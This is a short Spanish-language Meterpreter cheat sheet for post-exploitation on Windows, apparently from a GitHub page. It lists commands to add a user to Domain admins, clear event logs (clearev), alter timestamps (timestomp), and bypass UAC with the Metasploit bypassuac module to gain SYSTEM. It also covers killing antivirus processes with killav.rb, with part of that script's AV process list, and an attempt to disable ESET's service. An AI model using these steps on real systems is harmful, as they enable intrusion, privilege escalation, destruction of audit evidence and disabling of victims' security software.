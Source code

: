 add_group_user 'Domain admins' username -h ip
clearev
timestomp
reboot
search
getuid


En windows 7 nos podemos encontrar con UAC:

meterpreter>getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect.
meterpreter>run post/windows/gather/win_privs                    **nos muestra los privilegios actuales

Solution: Bypass the UAC
meterpreter>background
>search uac
>use exploit/windows/local/bypassuac                             **Ojo con los AV
>set LHOST+LPORT+PAYLOAD then exploit....and ;)
meterpreter>getsystem
...got system via technique....................




""""""""""""""""""""""""""""""""""""""""""""""""""ANTIVIRUS""""""""""""""""""""""""""""""""""Killing in the name of.....
Opcion 1:
>>meterpreter>>run killav.rb             //con privilegios --> getsystem

Si vemos en detalle el código de killav.rb vamos a ver que tenemos una lista de los nombre de procesos de los 
antivirus mas comunes....

  			apimonitor.exe
  			aplica32.exe
  			apvxdwin.exe
  			arr.exe
  			atcon.exe
  			atguard.exe
  			atro55en.exe
  			atupdater.exe
  			atwatch.exe
  			au.exe
  			aupdate.exe
  			auto-protect.nav80try.exe
  			autodown.exe
  			autotrace.exe
  			autoupdate.exe
  			avconsol.exe
  			ave32.exe
  			avgcc32.exe
  			avgctrl.exe...............................bla bla bla
  			
Un antivirus tiene procesos asociados que van a revivir a nuestro cadaver (antivirus)
Por ejemplo ESET tiene defaulteada la opcion Enable-SelfDefense que NO permite usar el comando de WIN:
>> sc config ekrn start= disabled
>>[SC] OpenService ERROR 5:
>>
>>Acceso denegado.
  